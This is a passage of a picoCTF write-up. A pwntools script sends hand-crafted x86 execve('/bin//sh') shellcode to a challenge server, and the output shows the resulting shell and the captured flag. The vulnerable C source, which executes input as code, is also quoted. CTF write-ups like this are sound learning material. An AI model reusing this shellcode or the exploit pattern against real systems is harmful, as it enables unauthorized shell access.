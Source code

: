 we got the payload. now we load the payload. I used pwntools on python and ran it

```python
from pwn import remote

r = remote("mercury.picoctf.net", 35338)

print(r.recvline())
payload = b'\x31\xC0\x31\xC9\x50\x90\x31\xC0\xB1\x68\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x73\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x2F\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x2F\x01\xC8\x50\x90\x31\xC0\xB1\x6E\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x69\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x62\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x2F\x01\xC8\x50\x90\x31\xC0\x89\xE3\x89\xC1\x89\xC2\xB0\x0B\xCD\x80\x31\xC0\x40\x90\xCD\x80'
r.sendline(payload)
r.interactive()
```

and after running this code, this thing became bandit level 0 💀
```
└─$ python3 thistooktoolong.py
[+] Opening connection to mercury.picoctf.net on port 35338: Done
b'Give me code to run:\n'
[*] Switching to interactive mode
$ ls
flag.txt
fun
fun.c
xinet_startup.sh
$ cat flag.txt
picoCTF{th4t_w4s_fun_bf8b48641b742e27}
```

btw some bonus stuff. we have fun.c so we can see the original c code. where we can see that it converts a string pointer to a function pointer. so turning a string to function is dangerous and should be done when knowing what's happening. (lesson learnt 👍)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define MAX_LENGTH 1000

void execute(char *shellcode, size_t length) {
    if (!shellcode || !length) {
        exit(1);
    }
    size_t new_length = length * 2;
    char result[new_length + 1];

    int spot = 0;
    for (int i = 0; i < new_length; i++) {
        if ((i % 4) < 2) {
            result[i] = shellcode[spot++];
        } else {
            result[i] = '\x90';
        }
    }
    // result[new_length] = '\xcc';
    result[new_length] = '\xc3';

    // Execute code
    int (*code)() = (int(*)())result;
    code();
```